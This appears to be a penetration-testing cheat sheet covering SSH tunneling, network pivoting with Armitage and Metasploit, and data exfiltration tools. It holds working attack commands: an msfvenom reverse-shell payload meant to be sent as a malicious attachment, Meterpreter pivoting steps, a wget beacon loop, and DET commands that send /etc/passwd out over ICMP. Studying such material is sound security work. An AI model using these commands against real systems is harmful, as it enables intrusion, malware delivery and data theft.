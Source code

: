 # Tunneling, Port Forwarding, Pivoting, & Exfiltration

## Tunneling

Where one protocol is used to carry traffic for another protocol.

### SSH Tunneling

#### 3 Types

1. Local port forwarding
2. Remote port forwarding
3. Dynamic port forwarding

#### Local Port Forwarding

If we look at our local Kali host `http://127.0.0.1:8080` nothing is currently running there.

Now use SSH to connect to my target server on port 80, but access it on port 8080 locally.

```bash
# From Kali
ssh -f -nNT -L 8080:localhost:80 target_user@target_IP
ssh -f -nNT -L 8080:localhost:80 msfadmin@10.0.2.8
```

Should now be able to navigate to `http://127.0.0.1:8080` and see the target's web page.

We can use `lsof` to kill it: `lsof -i` and kill the PID of the process.

#### Remote Port Forwarding

```bash
# From Target
sudo ssh -R 2222:localhost:22 kali@kali_IP
# From Kali
ssh target_IP -p 2222
```

#### Running HTTP through an SSH Tunnel

```bash
# From Target
sudo ssh -f -nNT -R 8080:localhost:80 msfadmin@10.0.2.8
# From Kali
# Can now navigate to 10.0.2.8 in a browser. Was not available prior.
```

#### Dynamic Port Forwarding

```bash
# From Kali
ssh -f - N -D 9050 kali@intermediate_IP  # Dual homed with second IP of 10.1.1.7
proxychains ssh 10.1.1.5  # Target IP
```

## Port Forwarding

Forwarding an incoming IP:port to an outoging IP:port.

## Pivoting

Technique used to burrow deep into a network by routing one machine to another.

### Armitage

```bash
# Setup Meterpreter revere shell
msfvenom -p windows/meterpreter/reverse_tcp --platform windows --arch x86 -f exe LHOST=<IP> LPORT=<IP> -o winjan.exe
# From Armitage
# Add target host, select payload, windows, meterpreter, reverse_tcp, remove encoding, and update the port
# Now wait for a victim to click the malicious attachment winjan.exe
# Arimtage has detected and exploited it
# Right click on the target to select meterpreter, pivoting, setup, and see additional hosts
# We can now scan the new target(s). Select Hosts, MSFscans, and enter range
```

### Metasploit

```bash
msf > use exploit/multi/handler
msf > set payload windos/meterpreter/reverse_tcp
msf > set lhsot
msf > set lport
msf > exploit
# Now execute the winjan.exe file from the target like with Armitage
# We now have a meterpreter reverse shell and can check the network configuration
meterpreter > shell
C:\tools>ipconfig
exit
meterpreter > background
msf exploit(multi/handler) > use post/multi/manage/autoroute
msf post(multi/manage/autoroute) > set subnet 10.1.1.0
msf post(multi/manage/autoroute) > set session 1
msf post(multi/manage/autoroute) > exploit
# We can now pivot by scanning one of the new targets
msf auxiliary(scanner/ssh/ssh_version) > set rhosts 10.1.1.5
msf auxiliary(scanner/ssh/ssh_version) > exploit
```

## Exfiltration

Various ways to get information out of the network.

### Ten Commandments of Exfiltration

#### Five Assumptions of Exfiltration

1. Monitoring is perfect
2. Reputation is checked
3. Encryption stripping is in place
4. Monitoring and analysis is at a commercial level
5. Blind proactive countermeasures may affect exfiltration

#### Five Rules of Exfiltration

1. Do not use obfuscation
2. Use web protocols
3. Use innocuous techniques
4. Sending and receiving time is synchronized
5. Manual mechanisms can be used

### Beaconing

* A beacon is a malicious form of "heartbeat"
* Beacons may just indicate their existence
* Beacons may trigger tasking from the C\&C server
* Sophisticated beacons vary their calling schedule
* Beacons commonly use HTTP/HTTPS
* Use legitimate and innocuous traffic
* Sophisticated beacons may use multiple destinations

#### Example

```bash
while true; do wget -O /dev/null http://<URL>/; sleep 10; done;
```

There are other beacon simulators online such as on GitHub.

### PyExfil

[https://github.com/ytisf/PyExfil](https://github.com/ytisf/PyExfil)

Using PyExfil to exfiltrate over HTTPS

```bash
# Two terminals used
# Terminal 1 (Collector)
python https_server.py
# Terminal 2 (Target)
python https_client.py
```

### DET

[https://github.com/sensepost/DET](https://github.com/sensepost/DET)

```bash
# Two terminals used
# Terminal 1 (Collector - ICMP Server)
python det.py -c ./config-sample.json -p icmp -L
# Terminal 2 (Target - Exfiltrating data - ICMP Client)
python det.py -c ./config-sample.json -p icmp -f /etc/passwd
```

### Cachetalk

[https://github.com/SafeBreach-Labs/cachetalk](https://github.com/SafeBreach-Labs/cachetalk)

```bash
python covert.py -t http://<URL>/
# Two terminals used
# Terminal 1
python covert.py -w stuff http://<URL>/ 10 -s -1
# Terminal 2
python covert.py -r 10 http://<URL>/ 10 -s -1
```

### DNS Exfiltration

#### dnsteal

[https://github.com/m57/dnsteal](https://github.com/m57/dnsteal)

```bash
python dnsteal.py <IP> -z -v
# From target

```

### OpenPuff

[https://www.darknet.org.uk/2017/07/openpuff-professional-steganography-tool/](https://www.darknet.org.uk/2017/07/openpuff-professional-steganography-tool/)

Video exfiltration
